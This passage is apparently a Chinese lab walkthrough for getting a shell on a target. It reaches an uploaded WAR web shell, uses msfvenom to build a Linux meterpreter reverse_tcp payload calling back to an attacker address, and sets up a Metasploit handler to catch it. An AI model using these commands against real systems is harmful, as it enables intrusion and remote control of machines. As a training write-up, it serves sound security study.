 执行我们刚才上传的war包

访问war包文件名目录

```
http://192.168.81.151:8080/shell
```

![image-20220325111449811](https://gitee.com/xxb667/img/raw/master/img/image-20220325111449811.png)

输入

```
shell
```

直接getshell

获得shell之后直接进行第4个提权即可



# 3.getshell

## 3.1 上传木马文件

MSF生成木马文件，木马文件名为

**4444.elf**

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.81.131 lport=4444 -f elf  >4444.elf
```

![image-20220325101302437](https://gitee.com/xxb667/img/raw/master/img/image-20220325101302437.png)

## 3.2 kali监听

在目录**home/xxb**创建**linux.rc**文件，并添加下列内容

```
vim linux.rc  #创建文件
```

添加的内容如下

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```

![image-20220318151533016](https://gitee.com/xxb667/img/raw/master/img/image-20220318151533016.png)

服务端监听，监听后在蚁剑上运行我们上传的木马文件
